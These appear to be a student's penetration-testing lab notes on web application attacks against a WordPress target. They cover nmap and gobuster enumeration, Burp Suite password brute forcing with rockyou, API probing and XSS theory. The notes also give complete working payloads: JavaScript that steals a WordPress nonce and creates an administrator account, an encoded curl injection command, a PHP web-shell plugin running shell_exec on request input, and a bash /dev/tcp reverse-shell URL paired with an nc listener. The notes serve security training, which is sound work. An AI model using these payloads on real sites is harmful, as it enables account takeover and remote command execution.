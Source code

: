 web applications

white box: unconstrained access to source code, infrasturecture and design documentations

black box: no info


Fingerprinting with nmap

initial active enumeration, enumeration of the web server

sudo nmap -p80 -sV <ip> service descovery on port 80 http port

sudo nmap -p80 --script=http-enum <ip> http enumeration script


Tech stack id with wappalyzer: passive
OS, UI framwork, webserver etc


gobuster:

directory brute force
dir mode: directory busting
-u: ip flag (url)
-w: brute force word list
-t: thread count, normally 10

gobuster dir -u <ip> -w /usr/share/wordlist/dirb/common.txt -t 5


Burp Suite:
GUI based for webb app security testing
ability to intercept HTTPS traffic (BURP certificate)
burpsuite to launch

Temporary project -> use burp defaults (select)->main UI

Proxy tool: intercept requests between web client and server

Proxy tab -> disable intercept tool(intercept tab)->proxy listener settings-> options sub-tab -> enables it on :8080

firefox must connect to 8080 inorder to intercept traffic
nav-> about:preferences#general->loopback ip address 127.0.0.1:8080



Repeater: new requests or mod the ones in history (replay attack)
rightlick a request in  proxy>HTTP Hisotry -> send to repeater


Intruder: config local /ect/hosts to statically assign ip to offsecwp website that's being tested

bypassing DNS: cat /etc/hosts
...
<ip> offsecwp

new burp session, configure proxy, nav to site with domain name, admin and test as ur and ps, login.
return to burp Proxy>HTTP History, rightclick POST request to the login page, send to intruder

in intruder tab, choose the post request, move to positions subtab, need to brute force the password since we know admin is correct

select the value of the pwd key and press add

using rockyou
cat /usr/share/wordlists/rockyou.txt | head

move to playload tab, paste the wordlist into simple list area

if firefox is burp proxy, burp closed firefox won't work
just use burp build in broswer


Web app enum
refer to the info retrieved passively during recon

ID compoenents that make up web app, many vulnerabilities are technology agnostic
note the db or os

tech stacks host os, web server db, front back end language

debugging page:
url address -> file extension as a port of a url can revel programming language: php, jsp, do or html

routes make url extensionslargelt irrelevant

source code, resources and content, inspect element


http response headers and sitemaps

search server responses for additional information

proxy like burp suite intercepts requests and browser's own network tool

network rool, launched from firefox web developer menu (in the inspect element)

clieck on a request to get more details
inspect reponse headers: HTTP headers

X- : non-standard HTTP header
RFC6648: replaced X-

X-Powered-By, x-amz-cd-id: amazon cloud font

site maps robots.txt tells the search engine bots what to crawl, 


Enumerating and Abusing API

gobuster to brute force api (REST)

-p for gobuster pattern feature since api paths are like: /api_name/v1

need to create a simple pattern file in the system:
{GOBUSTER}/v1
{GOBUSTER}/v2

placeholder for match word

gobuster dir -u <domain> -w /usr/share/wordlists/dirb/big.txt -p pattern

we can then inspect the api with curl
: curl -i <domain>/users/v1 for example
*-i is used to include the http header in the output

if we find something like admin:
gobuster dir -u <domain>/users/v1/admin -w /usr/share/wordlist/dirb/small.txt

by probing with curl and reading the returned error code we can determine what language the api uses to interact

hence enableing us to do something like this:

curl -d '{"passowrd":"fake","username":"admin"}' -H 'Content-Type:application/json' <domain>
*-d sepcifiies the data to send to the server via POST

the above commend is to test if the API uses content type json to interact



Cross site scripting

dynamically injecting content into page rendered by user's browser

Stored & Reflected

Stored: Presistent XSS. stored in db or cached by server, single stored xss can attack all users, forum software, in comment sections, product reviews anything that is stored and retrieved later

Reflected: crafted request or link, takes the value and places into page content, exploits $() 

DOM based, document object model, browser parse page's html content and generates an interna; dom representation, can be stored or relfected, when browser goes through content injected js is excuted by the DOM

most common input validation check: <> ' " {} ;

<> elements in html
{} js functions
' " for strings
; end of statement

most common are HTML and URL encoding (percent encoding)
convert non ascii and reserved character in URL such as converting space to %20

HTML encoding, display characters what normally have specual meaning, like tag elements &lt: chatacter for \<

if we can inject speical char in the page, browser will treat them as  code element


Basic XSS:

using burp: 
proxy > HTTP History, right click on the request and send to repeater

verification:
replace the default user agent calue with the a spript tage that includes the alert method: <script>alert (42)</script>

Prive esc with XSS
steal cookies and session info if app uses an insecure session management config, can steal auth cookie to masquerade

cookies to track state and info about user, cookies can be set with flags
we're intrested in 2: Secure and HttpOnly

Secure: only send cookie over encrypted connnections such as HTTPS

HttpOnly: deny JavaScript access to cookie, can use XSS payload to steal cookie if it is not set


nonce: server generated token that is included in HTTP request to add randomness and prevent CSRF attacks

to perform admin action need to gather nonce

nonce gathering payload

var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

admin account creation after nonce is gathered

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=<username>&email=<email>&pass1=<password>&pass2=<password>&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true); 
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);

if above failed maybe try PUT

compress everything into a one liner to inject we use JS compress
https://jscompress.com/

function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)

encoding the code from jscompressed so we can send it via curl the above code can be excuted from the broswer console since it runs js


attacking:
curl -i <domain> --<compromised var> "<script>eval(String.fromCharCode(<payload>))</script>" --proxy 127.0.0.1:8080

important: use domain name, ip doesn't work for some reason
proxy is here so that burp can intercept it

viewing it in burp if request seems coorect, forward and attack


gobuster: if i get hit with a 301

use --exclude-length 0


var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=<username>&email=<email>&pass1=<password>&pass2=<password>&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true); 
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);

reverse shell.php

<?php
/*
Plugin Name: Evil Plugin
Description: Backdoor for reverse shell access
Version: 1.0
Author: Attacker
*/

if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

nc -lvnp <port> to listen to reverse shell

revershell: http://192.168.137.16/wp-admin/plugins/evilplugin/evilplugin.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/<kaliIP>/4444+0%3E%261%27